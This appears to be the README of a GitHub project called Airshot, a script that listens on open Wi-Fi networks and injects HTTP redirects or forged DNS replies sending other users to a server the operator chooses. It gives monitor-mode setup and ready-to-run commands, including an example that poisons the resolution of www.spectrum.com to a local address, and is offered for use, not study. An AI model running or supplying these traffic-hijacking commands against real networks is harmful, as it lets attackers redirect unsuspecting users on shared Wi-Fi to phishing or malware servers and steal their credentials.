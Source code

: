 # Airshot

Just a basic script that will look for HTTP/DNS requests in open networks and inject HTTP redirects or DNS resolutions to a server you specify



### Directions
```bash
sudo airmon-ng start <interface>

#Redirecting HTTP Requests
python3 airshot.py -i <interface> -c <channel> -ip <redirected_server_ip> --http true

#DNS Poisioning
python3 airshot.py -i <interface> -c <channel> -ip <redirected_server_ip> --domain <domain_to_poision
```


### Examples
Redirecting HTTP GET Requests to 192.168.16.102
```bash
python3 airshot.py -i wlan0mon -c 9 -ip 192.168.16.102 --http true
```

DNS poisioning for www.example.com to resolve to 192.168.16.102
```bash
python3 airshot.py -i wlan0mon -c 9 -ip 192.168.16.102 --domain www.spectrum.com
```


